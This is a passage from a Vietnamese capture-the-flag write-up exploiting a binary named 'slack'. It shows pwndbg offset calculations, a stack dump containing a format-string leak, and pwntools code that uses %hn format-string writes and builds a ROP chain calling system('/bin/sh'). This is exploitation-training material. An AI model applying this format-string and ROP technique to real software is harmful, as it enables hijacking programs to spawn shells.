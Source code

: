idx sẽ là 25

```cs
pwndbg> p/x (0x7fffffffd8a8-0x7fffffffd810)/8 +6
$5 = 0x19
pwndbg> p/d 0x19
$6 = 25
```

- ta cần tính toán địa chỉ leak được và địa chỉ của biến i , vì ta sẽ ghi byte cao nhất của nó nên ta sẽ +3 vào

```cs
00:0000│ rsp 0x7fffd189b1d0 ◂— 1
01:0008│-068 0x7fffd189b1d8 ◂— 0x3ea00000000
02:0010│-060 0x7fffd189b1e0 ◂— 0x67af3c21
03:0018│-058 0x7fffd189b1e8 —▸ 0x7f4fc06246a0 ◂— 0x3200000029 /* ')' */
04:0020│-050 0x7fffd189b1f0 ◂— '2025-02-14 12:50:41'
05:0028│-048 0x7fffd189b1f8 ◂— '14 12:50:41'
06:0030│-040 0x7fffd189b200 ◂— 0x7fff0031343a /* ':41' */
07:0038│-038 0x7fffd189b208 ◂— 0x10101000000
pwndbg>
08:0040│-030 0x7fffd189b210 ◂— '|%21$p|%25$p|'
09:0048│-028 0x7fffd189b218 ◂— 0x7c70243532 /* '25$p|' */
0a:0050│-020 0x7fffd189b220 —▸ 0x7fffd189b5c9 ◂— 0x34365f363878 /* 'x86_64' */
0b:0058│-018 0x7fffd189b228 ◂— 0x64 /* 'd' */
0c:0060│-010 0x7fffd189b230 ◂— 0x1000
0d:0068│-008 0x7fffd189b238 ◂— 0x558f68dadde8e500
0e:0070│ rbp 0x7fffd189b240 ◂— 1
0f:0078│+008 0x7fffd189b248 —▸ 0x7f4fc042cd90 ◂— mov edi, eax
pwndbg>
10:0080│+010 0x7fffd189b250 ◂— 0
11:0088│+018 0x7fffd189b258 —▸ 0x5615d5fc22c9 (main) ◂— endbr64
12:0090│+020 0x7fffd189b260 ◂— 0x1d189b340
13:0098│+028 0x7fffd189b268 —▸ 0x7fffd189b358 —▸ 0x7fffd189bc42 ◂— '/home/ploi/pwn/FSB/slack/slack_patched'
14:00a0│+030 0x7fffd189b270 ◂— 0
15:00a8│+038 0x7fffd189b278 ◂— 0x81ba5d8b3ca2843
16:00b0│+040 0x7fffd189b280 —▸ 0x7fffd189b358 —▸ 0x7fffd189bc42 ◂— '/home/ploi/pwn/FSB/slack/slack_patched'
17:00b8│+048 0x7fffd189b288 —▸ 0x5615d5fc22c9 (main) ◂— endbr64
pwndbg> p/x 0x7fffd189b358-0x7fffd189b1d8+3
$7 = 0x183
```

- việc tiếp theo ta sẽ đơn giản là change nó thành -1 (0x80) thôi , và build chuỗi rop_chain của mình

```cs
payload_change = f'%{change_var & 0xffff}c%25$hn'.encode()
payload_change = payload_change.ljust(13,b'a')

payload_change_var = f'%{0x80}c%55$hn'.encode()
p.sendlineafter(b'Professional): ',payload_change + payload_change_var)
pop_rdi = 0x000000000002a3e5 + libc.address
saved_rip = stack_leak - 0x110
log.info(f'saved_rip : {hex(saved_rip)}')
build_rop_chain = flat(
        pop_rdi+1,
        pop_rdi,
        next(libc.search(b'/bin/sh\x00')),
        libc.sym.system,
        )
```
